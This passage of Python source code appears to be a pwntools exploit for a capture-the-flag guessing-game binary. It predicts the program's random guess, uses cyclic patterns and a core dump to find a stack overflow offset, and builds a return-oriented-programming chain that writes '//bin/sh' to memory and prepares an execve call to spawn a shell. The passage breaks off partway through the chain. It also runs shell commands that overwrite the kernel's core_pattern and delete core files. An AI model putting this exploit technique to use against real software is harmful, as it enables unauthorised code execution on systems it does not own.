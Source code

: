 ```python

    def send_payload(self, payload):
        guess_val = str((next(self.rand) % 100) + 1)
        log.info("Guessing: '{}'".format(guess_val))
        self.guess(guess_val)
        log.info("Sending payload: \n{}".format(hexdump(payload)))
        self.enter_name(payload)
        self.io.recvline()
        self.io.recvline()
        self.io.recvline()

def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm core.* > /dev/null")
    proc = process(exe.path)
    payload = cyclic(150, n = exe.bytes)
    gg1 = GuessingGame1(proc)
    with context.local(log_level='ERROR'): 
        gg1.send_payload(payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.fault_addr, n = exe.bytes )
    log.info("Overflow offset: {}".format(offset))
    return offset

def get_rop():
    p = lambda x : pack('Q', x)

    IMAGE_BASE_0 = 0x0000000000400000 # f01c7ecf217d3cebdf4f676920f17ebfcb33d5d14d78df8dfffed5c5290e6f62
    rebase_0 = lambda x : p(x + IMAGE_BASE_0)

    rop = b''

    rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
    rop += b'//bin/sh'
    rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
    rop += rebase_0(0x00000000002ba0e0)
    rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += rebase_0(0x000000000000dbeb) # 0x000000000040dbeb: pop r13; ret;
    rop += p(0x0000000000000000)
    rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
    rop += rebase_0(0x00000000002ba0e8)
    rop += rebase_0(0x00000000000695c9) # 0x00000000004695c9: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += p(0xdeadbeefdeadbeef)
    rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;
    rop += rebase_0(0x00000000002ba0e0)
    rop += rebase_0(0x0000000000010ca3) # 0x0000000000410ca3: pop rsi; ret;
    rop += rebase_0(0x00000000002ba0e8)
    rop += rebase_0(0x000000000004cc26) # 0x000000000044cc26: pop rdx; ret;
    rop += rebase_0(0x00000000002ba0e8)
    rop += rebase_0(0x00000000000163f4) # 0x00000000004163f4: pop rax; ret;
    rop += p(0x000000000000003b)
```